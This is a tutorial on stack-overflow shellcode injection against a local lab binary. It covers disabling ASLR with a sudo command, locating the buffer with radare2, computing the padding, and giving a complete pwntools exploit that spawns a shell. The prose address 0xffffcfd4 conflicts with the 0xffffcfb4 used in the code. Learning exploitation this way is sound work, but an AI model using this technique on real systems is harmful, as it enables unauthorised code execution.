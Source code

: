 ```yaml
---
description: Running your own code
---
```


# Shellcode

In real exploits, it's not particularly likely that you will have a `win()` function lying around - shellcode is a way to run your **own** instructions, giving you the ability to run arbitrary commands on the system.

**Shellcode** is essentially **assembly instructions**, except we input them into the binary; once we input it, we overwrite the return pointer to hijack code execution and point at our own instructions!

> Note: I promise you can trust me but you should never _ever_ run shellcode without knowing what it does. Pwntools is safe and has almost all the shellcode you will ever need.

The reason shellcode is successful is that Von Neumann architecture \(the architecture used in most computers today\) does not differentiate between **data** and **instructions** - it doesn't matter where or what you tell it to run, it will attempt to run it.  Therefore, even though our input is data, the computer _doesn't know that_ - and we can use that to our advantage.

### Disabling ASLR

ASLR is a security technique, and while it is not specifically designed to combat shellcode, it involves randomising certain aspects of memory \(we will talk about it in much more detail later\). This randomisation can make shellcode exploits like the one we're about to do more less reliable, so we'll be disabling it for now.

```text
echo 0 | sudo tee /proc/sys/kernel/randomize_va_space
```

> Again, you should never run commands if you don't know what they do.

### Finding the Buffer in Memory

Let's debug `vuln` using `radare2` and work out where in memory the buffer starts; this is where we want to point the return pointer to.

```text
$ r2 -d -A vuln

[0xf7fd40b0]> s sym.unsafe ; pdf
[...]
; var int32_t var_134h @ ebp-0x134
[...]
```

This value that gets printed out is a **local variable** - due to its size, it's fairly likely to be the buffer. Let's set a breakpoint just after `gets()` and find the exact address.

```text
[0x08049172]> dc
Overflow me
<<Found me>>                    <== This was my input
hit breakpoint at: 80491a8
[0x080491a8]> px @ ebp - 0x134
- offset -   0 1  2 3  4 5  6 7  8 9  A B  C D  E F  0123456789ABCDEF
0xffffcfb4  3c3c 466f 756e 6420 6d65 3e3e 00d1 fcf7  <<Found me>>....

[...]
```

It appears to be at `0xffffcfd4`; if we run the binary multiple times, it should remain where it is \(if it doesn't, make sure ASLR is disabled!\).

### Finding the Padding

Now we need to calculate the padding until the return pointer. We'll use the De Bruijn sequence as explained in the previous blog post.

```text
$ ragg2 -P 400 -r
<copy this>

$ r2 -d -A vuln
[0xf7fd40b0]> dc
Overflow me
<<paste here>>
[0x73424172]> wopO `dr eip`
312
```

Wehey the padding is 312 bytes!

### Putting it all together

In order for the shellcode to be correct, we're going to set `context.binary` to our binary; this grabs stuff like the arch, os and bits and enables pwntools to provide us with accurate shellcode.

```python
from pwn import *

context.binary = ELF('./vuln')

p = process()
```

> Note: We can use just `process()` because once `context.binary` is set it is assumed to use that process

Now we can use pwntools' awesome shellcode functionality to make it _incredibly_ simple.

```python
payload = asm(shellcraft.sh())          # The shellcode
payload = payload.ljust(312, b'A')      # Padding
payload += p32(0xffffcfb4)              # Address of the Shellcode
```

Yup, that's it. Now let's send it off and use `p.interactive()`, which enables us to communicate to the shell.

```python
log.info(p.clean())

p.sendline(payload)

p.interactive()
```

> If you're getting an EOFError, print out the shellcode and try to find it in memory - the stack address may be wrong

```text
$ python3 exploit.py
[*] 'vuln'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
[+] Starting local process 'vuln': pid 3606
[*] Overflow me
[*] Switching to interactive mode
$ whoami
ironstone
$ ls
exploit.py  source.c  vuln
```

And it works! Awesome.

### Final Exploit

```python
from pwn import *

context.binary = ELF('./vuln')

p = process()

payload = asm(shellcraft.sh())          # The shellcode
payload = payload.ljust(312, b'A')      # Padding
payload += p32(0xffffcfb4)              # Address of the Shellcode

log.info(p.clean())

p.sendline(payload)

p.interactive()
```

### Summary

* We injected shellcode, a series of assembly instructions, when prompted for input
* We then hijacked code execution by overwriting the saved return pointer on the stack and modified it to point to our shellcode
* Once the return pointer got popped into EIP, it pointed at our shellcode
* This caused the program to execute our instructions, giving us \(in this case\) a shell for arbitrary command execution

